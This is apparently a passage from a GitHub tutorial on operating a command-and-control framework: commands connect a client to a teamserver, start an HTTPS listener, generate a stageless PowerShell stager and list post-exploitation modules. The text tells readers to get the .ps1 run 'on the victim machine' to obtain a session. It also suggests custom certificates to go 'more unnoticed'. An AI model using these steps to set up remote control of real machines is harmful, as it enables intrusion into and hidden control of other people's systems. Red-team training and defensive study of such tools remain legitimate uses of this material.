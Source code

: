 `Client Connect`

```
python3 st client wss://<username>:<teamserver_password>@<teamserver_ip>:443
```

![ST2](https://user-images.githubusercontent.com/84678370/131224992-79a14160-fb55-435d-950c-aa387c5cadb4.png)

> Let's launch a `listener`

```
listeners
use https 
options
```

![ST3](https://user-images.githubusercontent.com/84678370/131225601-bf5da0c7-5daa-4499-a497-45843974b00c.png)

> You could generate your own certificates and keys to go a little more unnoticed, but for this test we will simply show the basic use of this C2 without generating any keys and certs.

```
start
```
![ST4](https://user-images.githubusercontent.com/84678370/131226316-0efc9e56-69a8-4905-a01f-3bce4ee47e83.png)


`Stagers`

``` 
stagers
list
```

```
use powershell_stageless

generate https
```

![ST6](https://user-images.githubusercontent.com/84678370/131229440-f9f95e3e-72e1-4ba3-ab06-6bff3620f416.png)

> Once here, you must find a way to run this .ps1 on the victim machine to get a session.

![ST7](https://user-images.githubusercontent.com/84678370/131229488-80eefd1f-88ab-4ca1-828c-05c2b6bb58b1.png)

> And now the big question, how do I interact with the session?

> Well don't worry we are going to show it.

### __Post-Ex Modules__

```
modules
list
```

![ST8](https://user-images.githubusercontent.com/84678370/131229614-2674a50c-3c3d-47be-bf09-32509ac402d8.png)
